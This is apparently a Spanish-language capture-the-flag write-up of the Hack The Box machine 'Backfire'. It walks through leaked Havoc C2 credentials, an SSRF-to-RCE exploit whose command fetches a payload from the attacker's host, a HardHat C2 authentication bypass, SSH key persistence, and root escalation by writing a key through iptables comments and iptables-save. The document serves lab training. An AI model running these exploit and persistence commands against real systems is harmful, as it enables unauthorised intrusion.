## Box Info

| Name                  | Backfire         | 
| :-------------------- | ---------------: |
| Release Date          | 18 Jan, 2025     |
| OS                    | Linux            |
| Rated Difficulty      | Medium           |


## Enumeration

```zsh
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 9.2p1 Debian 2+deb12u4 (protocol 2.0)
| ssh-hostkey: 
|   256 7d:6b:ba:b6:25:48:77:ac:3a:a2:ef:ae:f5:1d:98:c4 (ECDSA)
|_  256 be:f3:27:9e:c6:d6:29:27:7b:98:18:91:4e:97:25:99 (ED25519)
443/tcp  open  ssl/http nginx 1.22.1
| ssl-cert: Subject: commonName=127.0.0.1/organizationName=test llc/stateOrProvinceName=Florida/countryName=US
| Subject Alternative Name: IP Address:127.0.0.1
| Not valid before: 2024-06-14T15:01:25
|_Not valid after:  2027-06-14T15:01:25
|_http-server-header: nginx/1.22.1
|_http-title: 404 Not Found
| tls-alpn: 
|   http/1.1
|   http/1.0
|_  http/0.9
|_ssl-date: TLS randomness does not represent time
8000/tcp open  http     nginx 1.22.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME               FILENAME
| 1559  17-Dec-2024 12:31  disable_tls.patch
| 875   17-Dec-2024 12:34  havoc.yaotl
|_
|_http-server-header: nginx/1.22.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

http://10.10.11.49:8000

Nginx muestra un listado de directorios de archivos



```zsh
curl 10.10.11.49:8000/havoc.yaotl
```

## Havoc C2 Server

```
Teamserver {
    Host = "127.0.0.1"
    Port = 40056

    Build {
        Compiler64 = "data/x86_64-w64-mingw32-cross/bin/x86_64-w64-mingw32-gcc"
        Compiler86 = "data/i686-w64-mingw32-cross/bin/i686-w64-mingw32-gcc"
        Nasm = "/usr/bin/nasm"
    }
}

Operators {
    user "ilya" {
        Password = "CobaltStr1keSuckz!"
    }

    user "sergej" {
        Password = "1w4nt2sw1tch2h4rdh4tc2"
    }
}

Demon {
    Sleep = 2
    Jitter = 15

    TrustXForwardedFor = false

    Injection {
        Spawn64 = "C:\\Windows\\System32\\notepad.exe"
        Spawn32 = "C:\\Windows\\SysWOW64\\notepad.exe"
    }
}

Listeners {
    Http {
        Name = "Demon Listener"
        Hosts = [
            "backfire.htb"
        ]
        HostBind = "127.0.0.1" 
        PortBind = 8443
        PortConn = 8443
        HostRotation = "round-robin"
        Secure = true
    }
}
```



**Havoc Framework** es un marco avanzado de post-explotación y Comando & Control (C2) diseñado para equipos rojos y pruebas de penetración. Sirve como alternativa a otros marcos C2 conocidos como **Cobalt Strike, Sliver, and Mythic**.

#### disable_tls.patch

Desactivar TLS para el puerto de administración de WebSocket 40056 para poder demostrar que
sergej no realiza ningún trabajo.

El puerto de administración solo permite conexiones locales (usamos reenvío SSH), por lo que
esto no comprometerá nuestro servidor de Teams.

```
diff --git a/client/src/Havoc/Connector.cc b/client/src/Havoc/Connector.cc
index abdf1b5..6be76fb 100644
--- a/client/src/Havoc/Connector.cc
+++ b/client/src/Havoc/Connector.cc
@@ -8,12 +8,11 @@ Connector::Connector( Util::ConnectionInfo* ConnectionInfo )
 {
     Teamserver   = ConnectionInfo;
     Socket       = new QWebSocket();
-    auto Server  = "wss://" + Teamserver->Host + ":" + this->Teamserver->Port + "/havoc/";
+    auto Server  = "ws://" + Teamserver->Host + ":" + this->Teamserver->Port + "/havoc/";
     auto SslConf = Socket->sslConfiguration();
 
     /* ignore annoying SSL errors */
     SslConf.setPeerVerifyMode( QSslSocket::VerifyNone );
-    Socket->setSslConfiguration( SslConf );
     Socket->ignoreSslErrors();
 
     QObject::connect( Socket, &QWebSocket::binaryMessageReceived, this, [&]( const QByteArray& Message )
diff --git a/teamserver/cmd/server/teamserver.go b/teamserver/cmd/server/teamserver.go
index 9d1c21f..59d350d 100644
--- a/teamserver/cmd/server/teamserver.go
+++ b/teamserver/cmd/server/teamserver.go
@@ -151,7 +151,7 @@ func (t *Teamserver) Start() {
                }
 
                // start the teamserver
-               if err = t.Server.Engine.RunTLS(Host+":"+Port, certPath, keyPath); err != nil {
+               if err = t.Server.Engine.Run(Host+":"+Port); err != nil {
                        logger.Error("Failed to start websocket: " + err.Error())
```

En este archivo podemos ver 2 cambios: uno elimina wss:// (WebSocketSecure) y lo cambia a ws:// (WebSocketNoSecure). Estos cambios afectan a la URL de conexión al TeamServer.



El segundo cambio es el anterior: eliminar RunTLS y cambiarlo a solo Run, eliminando el certificado SSL.



TeamServer:

```r
Host: 127.0.0.1
Port: 40056
```

>El servidor Havoc C2 está en el puerto 40056 en localhost, internamente, lo que significa que no podemos interactuar con él desde afuera.

- Credenciales que obtuvimos del archivo havoc.yaotl:

```
ilya
CobaltStr1keSuckz!

sergej
1w4nt2sw1tch2h4rdh4tc2
```

```zsh
echo "10.10.11.49 backfire.htb" | sudo tee -a /etc/hosts
```

Web on Port 80 - `https://backfire.htb`



>Podemos interceptar la solicitud con Burp Suite y ver en la respuesta un encabezado llamado "X-Havoc: True" que confirma que los servidores están usando un marco Havoc C2 para facilitar la comunicación entre el C2 con TeamServer.

## SSRF-RCE  (CVE-2024-4157)

>Objective: `WebSocket  - 40056`

Esta vulnerabilidad implica un spoofing daemon agent y el registro de un agente falso; la vulnerabilidad también puede realizar check-ins y abrir sockets TCP en el TeamServer para el socket establecido, lo que permite la interacción con el servidor y obtiene RCE.

[Havoc-C2-SSRF-RCE-Exploit](https://github.com/0xsyr0/Havoc-C2-SSRF-RCE-Exploit)

```zsh
python3 exploit.py -t https://backfire.htb -i 127.0.0.1 --internal-port 40056 --payload-url http://10.10.14.9/payload --username ilya --password CobaltStr1keSuckz!
```




[Havoc-C2-RCE-2024](https://github.com/Nicolas-Arsenault/Havoc-C2-RCE-2024/tree/main)

```zsh
python3 poc.py -t https://backfire.htb -i 127.0.0.1 -p 40056
```

Configuramos el usuario, la contraseña y la inyección de comandos para la reverse shell




## SSH Connection | ilya



Authorized SSH

```zsh
ssh-keygen -t ed25519 -C "testt@kali"
```


Add to Authorized_keys



```zsh
echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMS0W1ssSRxAyYzPwhMN8Ay0kebsej/jamGwRq+CZamY testt@kali' >> authorized_keys
```

```zsh
ssh -i mi ilya@10.10.1149
```



## HardHat C2 | Sergej




[C2 - HardHatC2](https://github.com/gmh5225/C2-HardHatC2)

### Port Forwarding

```zsh
ssh -L 7096:localhost:7096 ilya@backfire.htb -i mi
```

```zsh
ssh -L 5000:localhost:5000 ilya@backfire.htb -i mi
```

### Port 7096 | HardHat C2

`https://127.0.0.1:7096`



Intercept with BurpSuite



Deserialize




Sin embargo no hay nada importante.

### Port 5000 | HardHat C2

```zsh
curl -k https://127.0.0.1:5000/ -v 
```



## HardHat C2 | Authentication Bypass

[HardHatC2-0-Days(RCE & AuthN Bypass)](https://blog.sth.sh/hardhatc2-0-days-rce-authn-bypass-96ba683d9dd7)



```
sth_pentest
sth_pentest
```

Sign In



## HardHat C2 | RCE

Implant Interact > Terminal



Si ejecutamos `whoami` el output nos dice que somos sergej.



Una vez que enviamos una reverse shell, podemos agregar nuevamente nuestra clave RSA para Sergej e iniciar sesión con SSH como lo hicimos anteriormente.



We can add our rsa key again for sergej and login with ssh

## Privilege Escalation

`sudo -l`



Este enfoque de vulnerabilidad lee el archivo id_ed25519.pub e inyecta reglas de iptables como comentario.
```zsh
sudo /usr/sbin/iptables -A INPUT -i lo -j ACCEPT -m comment --comment "$(printf '\n%s\n' "$(cat /home/sergej/.ssh/id_ed25519.pub)"; echo '\n')"
```

Muestra las reglas de firewall configuradas como formato de comando.

```zsh
sudo /usr/sbin/iptables -S
```



Con iptables-save exportamos las reglas del firewall (con la clave rsa maliciosa) a root.

```zsh
sudo iptables-save -f /root/.ssh/authorized_keys
```

Una vez agregada nuestra clave RSA, podemos usar SSH para iniciar sesión como root.

```zsh
ssh -i ~/.ssh/id_ed25519 root@localhost
```



Rooted - 8/06/25